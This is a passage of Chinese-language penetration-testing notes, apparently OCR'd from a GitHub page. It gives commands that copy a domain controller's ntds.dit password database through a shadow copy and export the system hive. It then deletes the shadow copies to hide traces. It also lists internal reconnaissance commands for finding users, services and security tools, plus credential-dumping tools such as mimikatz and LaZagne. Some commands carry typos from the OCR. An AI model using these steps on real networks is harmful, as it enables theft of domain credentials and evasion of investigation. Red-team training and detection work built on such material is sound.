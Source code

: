 ~~~
管理员权限执行 
vssadmin create shadow /for=C: 
利用卷影副本卷名拷贝ntds.dit文件与用注册表导出system.hive 

copy \\?\GLOBALLROOT\Device\xxxxxxxxxx\windows\ntds\ntds.dit C:\ntds.dit reg sava hklm\system system.hive 
//导出system.hive文件到注册表 

vssadmin delete shadows /for=C: /quiet   //删除卷影，隐藏痕迹
~~~

[[CVE-2020-1472的分析与复现 (0range-x.github.io)](https://0range-x.github.io/2021/11/22/CVE-2020-1472/#vssadmin卷影拷贝)](https://0range-x.github.io/2021/11/22/CVE-2020-1472/)



### dpapi解密

# 2.内网信息收集

## 本机信息收集

~~~
1、用户列表  net user /domain
windows用户列表 分析邮件用户，内网[域]邮件用户，通常就是内网[域]用户

2.进程列表  tasklist /svc
分析杀毒软件/安全监控工具等 邮件客户端 VPN ftp等

3.服务列表	tasklist /svc
与安全防范工具有关服务[判断是否可以手动开关等] 存在问题的服务[权限/漏洞]

4.端口列表	netstat -ano
开放端口对应的常见服务/应用程序[匿名/权限/漏洞等] 利用端口进行信息收集

5.补丁列表	systeminfo
分析 Windows 补丁 第三方软件[Java/Oracle/Flash 等]漏洞

6.本机共享	smbclient -L ip  
		   net user \\ip\c$
本机共享列表/访问权限 本机访问的域共享/访问权限

7.本用户习惯分析
历史记录 收藏夹 文档等
~~~

### 8.获取当前用户密码

#### Windows

- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Invoke-WCMDump](https://github.com/peewpw/Invoke-WCMDump)
- [mimiDbg](https://github.com/giMini/mimiDbg)
- [LaZagne](https://github.com/AlessandroZ/LaZagne)
- [NirLauncher )](http://launcher.nirsoft.net/downloads/)
- [quarkspwdump](https://github.com/quarkslab/quarkspwdump)
